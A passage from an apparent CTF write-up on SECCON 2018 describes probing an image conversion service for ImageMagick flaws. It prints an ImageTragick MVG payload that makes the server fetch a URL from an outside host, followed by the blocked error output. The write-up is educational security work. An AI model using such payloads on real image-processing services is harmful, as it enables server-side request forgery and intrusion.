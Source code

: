 ## Part 2: The Rabbit Hole Continues

### Ghostscript Vulnerability

Well now we have a logged in "local" session, let's see what fun we can get up to with it. Turns out not much, it's just a picture conversion service. Which gives us some ideas:

1. [ImageTragick](https://imagetragick.com/)
2. Some sort of arbitrary file inclusion
3. Some other XSS using image polyglot

The upload looks like this after you've selected a photo:

![upload]({{site.url}}/images/seccon18/convert.png)


This is just a random JPG I had in my downloads folder from another CTF we competed in. Bonus points if you know which CTF it was ;).

Now the really interesting thing here is the "convert" link. I mean it will be, it's the only other thing on the page apart from "back" so that's a bit of a pointless statement. But what I really mean is that "converting" an image is a _very_ strong indicator that we're dealing with an ImageTragick style exploit. Since that's triggered by user controlled input into an ImageMagick command, which `convert` is one of.

Fooling around with the request (below), gives us more useful information.

1. We can't control the uploaded filename, a shame. If we could then we can potentially upload a .php script or something
2. There isn't validation to check whatever we upload is a _valid_ image, since we sent "ffff". Which as lovely as 4 characters can look, doesn't make a proper image.
3. The filename it gets uploaded to is constant per user, probably a hash of the remote_ip or something similar. This is probably to prevent interference between competing teams.

![Request1]({{site.url}}/images/seccon18/request1.png)

The above request uploads the image, and the next one actually performs the conversion.

![Request2]({{site.url}}/images/seccon18/request2.png)

So we're feeling pretty good about our plans, grab an ImageTragick payload and lets get that nutty flag!

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://pingback.com/test.jpg)'
pop graphic-context
```

We should see a HTTP request to `pingback.com`. However, instead of a lovely pingback, we get:

```
convert: not authorized `/var/www/html/images/fce168e4933ec4d3ee6c29827120d4ff.jpg' @ error/constitute.c/ReadImage/454.
convert: no images defined `/var/www/html/images/fce168e4933ec4d3ee6c29827120d4ff.gif' @ error/convert.c/ConvertImageCommand/3046.
```

